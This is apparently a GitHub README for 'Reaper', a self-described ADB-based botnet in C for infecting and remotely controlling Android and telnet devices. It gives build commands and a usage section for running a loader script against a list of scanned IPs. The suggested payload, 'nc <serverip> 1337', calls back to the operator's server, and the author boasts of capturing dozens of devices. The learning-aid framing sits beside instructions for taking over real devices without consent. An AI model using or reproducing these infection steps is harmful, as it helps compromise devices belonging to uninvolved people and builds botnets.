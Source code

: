 <h1 align="center">
	<img src="https://static.thenounproject.com/png/4050176-200.png" width="150px"><br>
    Reaper - An ADB-based botnet written in C.
</h1>
<p align="center">
	Reaper is an ADB-based botnet that lets control the devices you infect, execute commands, and contains extra tools for playing around. It isn't just limited 
	to ADB, it can be used as a telnet botnet, or a regular botnet.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
     </a>
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Deno-1.0.0+-7DCDE3?style=for-the-badge" alt="Node">
     </a>
</p>

## Why?

Here are few reasons why I made this:
```
- I wanted to learn more about botnets.
- I wanted to make something that will help other people understand and learn more about botnets.
- I wanted to make my own from scratch, because most botnets that are available on github are all variants of mirai or qbot.
```
Extra Facts:
```
- Yes, I know, I could've used epoll, but I didn't want to make things super-complicated and annoying.
- No, this does not contain any DDoS methods, If you want to customize this and add your own, then you are free to do so.
```

## Installation
```
gcc -o reaper reaper.c -lpthread -lcurl
gcc -o client client.c
```

## Usage
After you have authenticated and are waiting for connections, run this command -> `python3 loader.py droid.txt`. Make sure you have edited in your payload in the loader script. (It can be something as simple as `nc <serverip> 1337`) Wait around 5-15 minutes, and you should have devices connected. Even though the custom list I made is small and only has 96 IP's, on average, it pulls around 25 - 50 devices.
```

```

## Screenshots
![Screenshot_2021-08-21-05-36-18_922x559](https://user-images.githubusercontent.com/86132648/130317740-f9882527-6632-4529-b776-dd224e7bc6ef.png)
![Screenshot_2021-08-18-06-41-40_893x237](https://user-images.githubusercontent.com/86132648/130317747-3e312623-450b-4a04-8bad-a9ebe8247491.png)

## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
